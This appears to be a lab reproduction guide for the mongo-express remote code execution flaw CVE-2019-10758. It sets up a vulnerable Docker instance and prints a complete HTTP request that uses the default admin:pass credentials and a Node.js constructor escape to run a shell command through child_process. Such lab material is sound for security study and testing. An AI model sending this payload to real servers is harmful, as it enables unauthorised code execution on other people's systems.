

# mongo-express Remote Code Execution (CVE-2019-10758)

mongo-express is a third-party web interface for MongoDB built with Node and Express. An attacker who can log in, or who encounters the default credentials (`admin:pass`), can execute arbitrary Node.js code.

## Environment

Start mongo-express version 0.53.0:

```bash
docker compose up -d
```

After the service starts, visit `http://your-ip:8081` to open the web interface.

## Reproduction

Send the following request to execute `this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")`:

```
POST /checkValid HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Authorization: Basic YWRtaW46cGFzcw==
Content-Type: application/x-www-form-urlencoded
Content-Length: 124

document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("touch /tmp/success")
```


